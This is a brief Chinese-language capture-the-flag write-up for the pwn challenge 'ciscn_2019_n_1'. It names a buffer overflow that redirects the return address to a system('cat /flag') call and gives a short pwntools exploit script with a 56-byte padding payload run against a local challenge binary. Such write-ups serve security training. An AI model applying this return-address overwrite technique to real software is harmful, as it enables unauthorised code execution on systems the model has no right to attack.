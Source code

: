 ```yaml
---
title: "ciscn_2019_n_1"
description: ""
date: 2023-03-29T04:25:55+08:00
lastmod: 2023-03-29T04:25:55+08:00
draft: false
images: []
weight: 2
toc: true
type: docs
---
```


## 0x01 分析

![a8aed923a28e0698e3ed01725f26a47c](images/a8aed923a28e0698e3ed01725f26a47c.png)  

存在溢出点，可以直接覆盖函数返回地址为 `system("cat /flag")`

## 0x02 Exploit

```python
from pwn import*
o = process("./pwn")
payload = b'a'*56 + p32(0x4006BE)
o.sendline(payload)
o.interactive()
```

![f113b22bf228f5af0121ac0630ce02f2](images/f113b22bf228f5af0121ac0630ce02f2.png)
